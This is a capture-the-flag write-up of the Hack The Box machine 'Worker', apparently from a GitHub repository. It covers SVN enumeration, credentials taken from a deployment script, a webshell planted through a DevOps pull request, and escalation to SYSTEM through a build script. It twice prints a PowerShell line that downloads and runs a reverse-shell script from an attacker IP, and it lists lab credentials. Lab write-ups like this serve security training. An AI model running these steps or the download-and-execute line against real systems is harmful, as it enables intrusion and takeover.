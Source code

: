 

# Box 



![worker](img/Screenshot_2020-12-24_16-56-03.png)

https://www.hackthebox.eu/home/machines/profile/270

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of Contents 

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents

## Reconnaissance

Let's start with nmap : 

```bash
nmap -sC -sV -oN nmap 10.10.10.203
```

![Screenshot_2020-12-23_12-24-50](img/Screenshot_2020-12-23_12-24-50.png)

We have an IIS webpage. I look for an IIS wordlist to be used with dirb.

![Screenshot_2020-12-23_14-37-11.png)](img/Screenshot_2020-12-23_14-37-11.png)

I find webpages with a 403 error but I can't do anything with those.

Let's take a look at the svn that we found on the nmap : 

![img/Screenshot_2020-12-23_14-40-50.png](img/Screenshot_2020-12-23_14-40-50.png)

I find a file moved.txt that we can read with :

```bash
svn cat svn://10.10.10.203/moved.txt
```

In this file we find out a suddomain called  http://devops.worker.htb. We have to authenticate to see the webpage.

![authenticaiton](img/Screenshot_2020-12-23_14-42-26.png)



I find an index.html webpage and there are more subdomains in it.

![file](img/Screenshot_2020-12-23_16-09-26.png) 

After visiting each website, it seems that those websites are useless. 

I got back to svn to see if I missed something so I check the logs :

```bash
svn log svn://10.10.10.203
```

We can see that there are 5 revisions : 

![deployement](img/Screenshot_2020-12-24_05-34-54.png)

There is one particulary interesting which is the one with the : "added deployment script" text, I download it :

```bash
svn export --revision r2 svn://10.10.10.203 r2
```

## Exploitation

We find credentials in a file :

![credentials](img/Screenshot_2020-12-24_05-36-51.png)

We can now authenticate to the http://devops.worker.htb webpage. 

![devops.worker.htb](img/Screenshot_2020-12-24_05-37-33.png)



We find a new repository called "SmartHotel360" but it seems that we can't do anything with it.

We can modify the code of the previous website that we visited earlier for example : http://devops.worker.htb/ekenas/SmartHotel360/_git/alpha.

![master](img/Screenshot_2020-12-24_11-14-10.png)

Make a new branch where you can upload a custom code : 

![new_branch](img/Screenshot_2020-12-24_11-15-06.png)

I upload an aspx code because I've tried with php but it doesn't work. 

You can do a pull request by approving yourself the changes and adding a new work item.

![pr](img/Screenshot_2020-12-24_11-17-17.png)



We can now build our application : 

![building](img/Screenshot_2020-12-24_11-19-34.png)

Go on the website of your choice and get to your uploaded code, mine is : http://alpha.worker.htb/cmdasp.aspx

And we have our webshell.

![webshell](img/Screenshot_2020-12-24_11-23-25.png)



Now let's get a reverse_shell thanks to our webshell  : 

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28:4446/rever_cmd.ps1')
```



Reverse_shell : 

![reverse_shell](img/Screenshot_2020-12-24_11-21-41.png)

## Post-Exploitation

### User

We are not a user yet.

I've read the logs of the builds before so I know there is a /w drive.

I find an interesting file called "passwd" :

![ls_passwd](img/Screenshot_2020-12-24_12-28-34.png)

In this file we can find a lot of credentials : 

![passwd](img/Screenshot_2020-12-24_11-48-55.png)

The only interesting line is :  `robisl = wolves11` because I found earlier that there is C:\Users\robisl\ folder in the C: drive.

Let's use the tool evil-winrm (https://github.com/Hackplayers/evil-winrm) to log in. We now have our user.txt hash.

![user](img/Screenshot_2020-12-24_12-30-45.png)

### Root

Now we can log in the website with the robinsl credential.

We have a new repository : 

![projet_robi](img/Screenshot_2020-12-24_15-40-07.png)



We have a build.ps1 file. My first attempt was to build the website without changing anything. It didn't work because dotnet is not on the machine.

I try to modify the build.ps1 file by using our previous exploit. It works perfectly and I can build my projet with the command : 

```powershell
whoami
```



![whoami](img/Screenshot_2020-12-24_15-35-59.png)



We are nt authority\system ! We can get a reverse shell by using the previous exploit and downloading a reverse_shell.

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28:4446/rever_cmd.ps1')
```

Here is my yaml file to build the project : 

![build_yaml](img/Screenshot_2020-12-24_15-48-36.png)

We got our reverse_shell and the hash. 

![reverse_admin](img/Screenshot_2020-12-24_16-06-53.png)